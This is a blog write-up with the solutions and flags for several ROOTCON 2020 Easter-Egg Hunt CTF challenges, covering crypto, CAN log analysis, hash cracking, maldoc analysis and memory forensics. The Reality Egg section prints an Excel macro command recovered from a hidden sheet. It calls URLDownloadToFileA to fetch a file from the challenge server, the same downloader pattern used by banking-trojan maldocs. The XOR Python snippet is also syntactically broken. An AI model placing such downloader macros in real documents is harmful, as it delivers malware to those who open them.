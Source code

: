 ```yaml
---
layout: post
title: ROOTCON 2020 Easter-Egg Hunt Flags
subtitle: This is my write-up on how I managed to solve some challenges on ROOTCON 2020 Easter-Egg Hunt.
comments: false
categories:
- CTF 
---
```


This is my write-up on how I managed to solve some challenges on ROOTCON 2020 Easter-Egg Hunt. The challenges include, but not limited to Forensics, Crypto, Malware Analysis and Puzzles. The objective is to solve the challenges and acquire the flag.

![](https://i.imgur.com/w1S4Qff.png){: .mx-auto.d-block :}

## Easter-Egg Challenges

### Time Egg Solution

Browse on the given link to learn more about the challenge.

![](https://i.imgur.com/aBk1SYR.png){: .mx-auto.d-block :}

From there you are given two messages:

~~~
: 83d7f7966225c71b556cfd1fa28aa1cb364903c74bfad82400a5b8326ebf110cf610Q: 8380cb903366dd4b7822ba48a9dacf8b6b4b6aa81df1f14b46afd4736ae9111ee2
~~~

The idea of the challenge is to ![](https://crypto.stackexchange.com/questions/59/taking-advantage-of-one-time-pad-key-reuse) [take advantage of one-time pad key re-use].

XOR the two given messages.
~~~
import sys
 def sxor(s1,s2):    
     return ''.join(chr(ord(a) ^ ord(b) for a,b in zip(s1,s2)
 s1 = "83d7f7966225c71b556cfd1fa28aa1cb364903c74bfad82400a5b8326ebf110cf610".decode('hex')
 s2 = "8380cb903366dd4b7822ba48a9dacf8b6b4b6aa81df1f14b46afd4736ae9111ee2".decode('hex')
 s3 = sxor(s1, s2)
 print s3.encode('hex')

#result: 00573c0651431a502d4e47570b506e405d02696f560b296f460a6c410456001214
~~~

[XOR the generated string, with a known plaintext, which in this case, a part of the flag: "rc_easter{". This will result on getting the "r4cc00n5_5" which is part of the key.](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'UTF8','string':'rc_easter%7B'%7D,'Standard',false)&amp;input=MDA1NzNjMDY1MTQzMWE1MDJkNGU0NzU3MGI1MDZlNDA1ZDAyNjk2ZjU2MGIyOTZmNDYwYTZjNDEwNDU2MDAxMjE0)

![](https://i.imgur.com/xM2o4mk.png){: .mx-auto.d-block :}

The difficult part of the task is you need to make intelligent guesses on trying to complete the key. Eventually, this will result on getting "r4cc00n5_5t0l3_4ll_0f_y0ur_3gg5!" as the key and XORing it with the generated XOR string will result on getting the flag.

**Note:** [I used r4cc00n5_5t0l3_4ll_0f_y0ur_3gg5!i as the full key as I based the flag on its given flag format which is: rc_easter{your_fl4g_h3re!}](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'UTF8','string':'r4cc00n5_5t0l3_4ll_0f_y0ur_3gg5!i'%7D,'Standard',false)&amp;input=MDA1NzNjMDY1MTQzMWE1MDJkNGU0NzU3MGI1MDZlNDA1ZDAyNjk2ZjU2MGIyOTZmNDYwYTZjNDEwNDU2MDAxMjE0)

![](https://i.imgur.com/5YI6nuS.png){: .mx-auto.d-block :}

**Flag: rc_easter{3ggc1t1n6_0TP_3x3rc153}**

### Space Egg Solution

Install [can-utils](https://github.com/linux-can/can-utils), then use **log2asc** to convert the log files in friendly format.   

Examine the ASC file, then from it, take note of the 400, 401, 402 and 403 events Rx values (as these events stands out). 

![](https://i.imgur.com/S9Is3Q7.png){: .mx-auto.d-block :}

Decode the hex values to get the flag.
(73 70 61 63 65 73 61 74 65 6C 6C 69 74 65 73 68 61 76 65 63 61 6E 74 6F 6F) = spacesatelliteshavecantoo.

**Flag: rc_easter{spacesatelliteshavecantoo}**

Alternatively, you can use **canplayer** to replay log file, and fire up Wireshark to examine the traffic while examining the data. Combining parts of it will also result on getting the flag.

![](https://i.imgur.com/6vBsxK5.png){: .mx-auto.d-block :}

### Power Egg Solution

Build a wordlist that would satisfy the password requirements. (eg. year-goon-color). Then crack the given md5 hash using hashcat or john the ripper. 

This will result on finding that "**2169-ShipCode-eminence**" password match the given hash. 

![](https://i.imgur.com/Jmor5Ik.png){: .mx-auto.d-block :}

Use the password to decrypt the "the_power_egg.enc" file using openssl with "2169-ShipCode-eminence" as the decryption password. 

This will result on getting a PNG file with a QR code. Open the file and use QR code scanner to view the flag.

![](https://i.imgur.com/ttrLI1j.png){: .mx-auto.d-block :}

**Flag: rc_easter{p0w3r_1s_n07h1n6_w17h0u7_c0ntr0L}**

### Reality Egg Solution

Examining the file, shows that it has a behavior similar to ![](https://blog.intel471.com/2020/03/25/analysis-of-an-attempted-attack-against-intel-471/) [**Zloader** banking trojan (aka Terdot]. 

Edit the hex format of the file to unhide the hidden sheet. This will result on being able to see the **hidden Sheet2**. More information on this available on [Excel Maldocs Hidden Sheets](https://isc.sans.edu/forums/diary/Excel+Maldocs+Hidden+Sheets/25876/) article.

![](https://i.imgur.com/cSb5v5R.png){: .mx-auto.d-block :}

Examine the column section, and notice that the **Column "N"** is hidden. Unhide the column and then jump to the (starting) 500th row.

![](https://i.imgur.com/GqhtTT0.png){: .mx-auto.d-block :}

Then convert the decimals values to ASCII to get the command below:
~~~

=CALL("urlmon","URLDownloadToFileA","JJCCJJ",0,"http://easteregg.rootcon.net/sFpWgx9WkHQQ542K/36xQCWUDNaJpdbTB","c:\Users\Public\flag.txt",0,0)
~~~

Browse to http://easteregg.rootcon.net/sFpWgx9WkHQQ542K/36xQCWUDNaJpdbTB to view the flag.

**Flag: rc_easter{r34l1ty_15_0ft3n__d1s4pp01nt1ng}**

### Soul Egg Solution

Browse to given link to view the image. 

![](https://i.imgur.com/GfHDLg4.jpg){: .mx-auto.d-block :}

The image shows strings that are encoded using **Atlantean Language**. 

Just use any decoder like 
![decoder](https://i.imgur.com/gdQmdNv.gif){: .mx-auto.d-block :}
or https://www.dcode.fr/atlantean-language to get the flag.

**Flag: rc_easter{sacr1f1c3h4lft0me}**

### Mind Egg Solution

Note that this is only partial solution as I wasn't able to complete this challenge.

Use zero-width characters decoder on "To Wanda.txt" file to acquire second part of the secret which is: **h_my_l0v3**. I've used [https://330k.github.io/misc_tools/unicode_steganography.html](https://330k.github.io/misc_tools/unicode_steganography.html) (opens in a new tab).

![](https://i.imgur.com/TPrNfnc.png){: .mx-auto.d-block :}

Then use volatility on the vision file (memory dump) to acquire the encoded first part of the secret which is: MUlPdVg1dTsybDJldW9MPSg/SkJGIy11bURKc2AvQDdHMyU3ODczKEByMg==. 

![](https://i.imgur.com/gIOVUZ8.png){: .mx-auto.d-block :}

Stucked on hint.txt particularly on the "**def**" part to fully decode the first part (all others are just using base encoding schemes, e.g. base64 -&gt; base85 -&gt; base58). 

Though the my_treasures zip file link can just be found by using strings on the vision memory dump file and searching for http. 

This will result on finding out: https://uploadfiles[dot]io/kiyqnnt9 which is the link to download the my_treasures file.

**Note:** Solved this after the event, and below is the solution.

Turns out the the &quot;def&quot; was raw inflate which would result on getting the first part of the secret: sc4rl37_w1tc (opens in a new tab) [Turns out that the "**def**" was **raw inflate** which would result on getting the first part of the secret: **sc4rl37_w1tc**](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)From_Base85('!-u')From_Base58('123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz',true)Raw_Inflate(0,0,'Adaptive',false,false)&amp;input=TVVsUGRWZzFkVHN5YkRKbGRXOU1QU2cvU2tKR0l5MTFiVVJLYzJBdlFEZEhNeVUzT0RjektFQnlNZz09).

![](https://i.imgur.com/r8qYFZG.png){: .mx-auto.d-block :}

Use the "sc4rl37_w1tch_my_l0v3" secret as the password to unzip the my_treasures file. This would result on several image files. One of the file contains a QR code which is the flag.

![](https://i.imgur.com/33w0K9Y.png){: .mx-auto.d-block :}

**Flag: rc_easter{y0u_c0uld_n3veR_huRt_m3_I_ju57_f33l_y0u} **

